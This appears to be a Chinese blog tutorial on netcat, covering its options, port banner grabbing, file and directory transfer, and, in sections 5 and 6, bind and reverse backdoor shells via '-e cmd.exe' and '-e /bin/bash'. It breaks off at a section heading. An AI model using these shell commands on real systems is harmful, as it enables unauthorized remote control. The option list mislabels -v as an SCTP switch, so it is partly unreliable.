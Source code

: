 ```yaml
---
title: netcat使用
date: 2020/10/20 8:46:40
comments: ture
categories:
- 网络安全
tags:
- 黑客技术
---
```


## netcat命令选项

#### 本文参考文章链接

[本文参考文章链接1](https://www.fujieace.com/linux/nc-2.html)

[本文参考文章链接2](https://jiajunhuang.com/articles/2020_09_19-linux_cmd_netcat.md.html)

[本文参考文章链接3](https://www.cnblogs.com/lpfuture/p/5719066.html)

<!--more-->

### 常用命令选项

```
## 网络模式和代理相关
-l 监听，作服务器。不填时作客户端。
-u UDP模式。不填时默认TCP模式。
-X 和 -x 是代理相关的选项

## 其余常用选项
-v verbose模式，打印更多日志
-z 连接以后就断开，用于测试网络连接是否连通 //探测端口的连通性
-w 超时时间，单位是秒
-s 指定source addr
-p 指定source port
-n 只识别IP地址，不查询DNS
-k 处理完一个请求之后，继续监听下一个
-d 脱离命令行窗口，在后台运行，常用于后门建立的过程
-e 执行某个程序，常用于后门建立的过程
-L 设置netcat处于监听状态等待链接，当客户端断开，服务器依旧回到等待状态
```

### 基本全部命令选项

```
用法：

ncat [选项] [主机名] [端口]

 

花费时间的选项以秒为单位。 附加“ ms”毫秒，“ s”表示秒，“ m”表示分钟，或“ h”表示小时（例如500ms）。

 

-4    仅使用IPv4

-6    仅使用IPv6

 

-U, --unixsock 仅使用Unix域套接字

	--vsock 仅使用vsock套接字

 

-C, --crlf 将CRLF用于EOL序列

-c, --sh-exec <command> 通过/bin/sh执行给定命令

-e, --exec <command> 执行给定命令

	--lua-exec <filename> 执行给定的Lua脚本

 

-g hop1[,hop2,...] 松散的源路由跳跃点（最大8个）

-G <n> 松散的源路由跳跃指针（4、8、12，...）

-m, --max-conns <n> 最大<n>同时连接

-h, --help 显示此帮助屏幕

-d, --delay <time> 在读/写之间等待时间

-o, --output <filename> 将会话数据转储到文件中

-x, --hex-dump <filename> 将会话数据以十六进制形式转储到文件中

-i, --idle-timeout <time> 空闲读/写超时时间

-p, --source-port port 指定要使用的源端口

-s, --source addr 指定要使用的源地址（不影响-l）

-l, --listen 绑定并监听传入的连接

-k, --keep-open 在侦听模式下接受多个连接

-n, --nodns 不通过DNS解析主机名

-t, --telnet 回答Telnet协商

-u, --udp 使用UDP代替默认TCP

	--sctp 使用SCTP代替默认TCP

 

-v, --verbose 使用SCTP代替默认TCP

-w, --wait <time> 连接超时时间

 

-z   零I/O模式，仅报告连接状态

    
```



## 1. 模拟聊天

- 服务器

```
nc -l -p [端口号]
```

- 客户端

```
nc [服务器ip] [服务器端口]
```



## 2.Banner抓取方法

- Banner是一个文本，Banner是一个你连接的服务器发送给你的文本信息。当你试图鉴别漏洞或者服务的类型和版本的时候，Banner信息是非常有用的。但是，并不是所有的服务都会发送banner。一旦你发现开放的端口，你可以容易的使用netcat 连接服务抓取他们的banner。

```
echo "" | nc -v -n w1 [target_ip] [开始端口-结束端口]
```



## 3.文件传输

### 从客户端传输文件到服务器

- 服务器

```
nc -l -p [端口号] > out_filename
```

- 客户端

```
nc [目标IP] [目标端口] < in_flimename
```

### 从服务器传输文件到客户端

- 服务器

```
nc -l -p [端口号] < in_filename
```

- 客户端

```
nc [目标IP] [目标端口] > out_flimename
```



## 4.目录传输（与文件传输类似）

- 服务器

```
tar -cvf - dir_name | nc -l [port_id]
```

- 客户端

```
nc -n [target_ip] [target_port] | tar -xvf - 
```



##  5. windows建立后门的方法

### 服务器——监听型后门

```
nc -l -p [port_id] -e cmd.exe
```

### 客户端——连接型后门

```
nc [target_ip] [target_port] -e cmd.exe
```



## 6、Linux下建立后门

### 服务器——监听型后门

```
nc -l -p [port_id] -e /bin/bash
```

### 客户端——连接型后门

```
nc [target_ip] [target_port] -e /bin/bash
```



## 7、连接转发



